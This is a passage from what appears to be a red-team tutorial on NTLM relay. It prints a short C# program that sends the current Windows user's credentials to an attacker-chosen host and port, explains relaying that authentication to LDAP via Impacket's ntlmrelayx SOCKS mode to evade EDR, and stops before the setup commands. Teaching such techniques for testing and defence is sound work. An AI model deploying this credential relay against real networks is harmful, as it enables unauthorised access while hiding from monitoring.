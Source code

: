 The simple .NET example is shown below:

```csharp
using System;
using System.Net.Http;
using System.Threading.Tasks;

namespace SharpHTTP
{
    internal class Program
    {
        static async Task Main(string[] args)
        {
            var url = $"http://{args[0]}:{args[1]}/test"; 

            var handler = new HttpClientHandler
            {
                UseDefaultCredentials = true, // Uses current Windows user credentials
                PreAuthenticate = true,
                AllowAutoRedirect = true
            };

            using (var client = new HttpClient(handler))
            {
                try
                {
                    HttpResponseMessage response = await client.GetAsync(url);
                    response.EnsureSuccessStatusCode();

                    string content = await response.Content.ReadAsStringAsync();
                    Console.WriteLine("Response received:");
                    Console.WriteLine(content);
                }
                catch (Exception ex)
                {
                    Console.WriteLine($"Request failed: {ex.Message}");
                }
            }
        }
    }
}
```

As mentioned before, this example sends a simple HTTP request using Windows authentication the current context provides. The important part being the passed parameter `UseDefaultCredentials` of `true`. After executing this one .NET assembly, it’s possible to proxy all of our other actions to LDAP from Linux, staying away from EDR’s tight grip.

Before starting the attack portion, there are some environmental prerequisites that need to be configured. Firstly, ensure that the development version of Impacket is installed and holds the `ntlmrelayx` version which supports LDAP `-socks` connections.

The following commands can be used to install this environment.
